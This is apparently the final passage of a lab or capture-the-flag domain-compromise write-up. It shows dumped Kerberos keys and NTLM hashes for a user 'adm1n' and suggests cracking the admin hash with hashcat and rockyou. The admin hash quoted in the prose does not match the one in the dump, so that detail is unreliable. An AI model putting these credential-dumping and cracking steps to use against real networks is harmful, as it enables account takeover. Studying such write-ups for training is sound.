 ```

- Primary:Kerberos \*
  Default Salt : GAIAAtlas
  Credentials
  des_cbc_md5 : f8efef5e3ece8076
  OldCredentials
  des_cbc_md5 : dff41c61ea4967c8

RID : 000003f1 (1009)
User : adm1n
Hash NTLM: e19ccf75ee54e06b06a5907af13cef42

Supplemental Credentials:

- Primary:NTLM-Strong-NTOWF \*
  Random Value : 0820f6f821c0733b67e449be5656830d

- Primary:Kerberos-Newer-Keys \*
  Default Salt : GAIAadm1n
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096) : c8c242756234f40bcc0f4fd115fde31bf7103b57f0a3e9d4b687878908132548
  aes128_hmac (4096) : 93b364e4c0918b89ac64d429ceb37283
  des_cbc_md5 (4096) : bc3215971f7c4525

- Packages \*
  NTLM-Strong-NTOWF

- Primary:Kerberos \*
  Default Salt : GAIAadm1n
  Credentials
  des_cbc_md5 : bc3215971f7c4525
```

we can see admin NTLM hash:
c16444961f67af7eea7e420b65c8c3eb

we could crack that with hashcat + rockyou (maybe) but hey...its over

I also stole that nice atlas wallpaper (found in images folder) it looks so cool

I just copy-pasted it in my share

And Now i used it as a header banner in this document
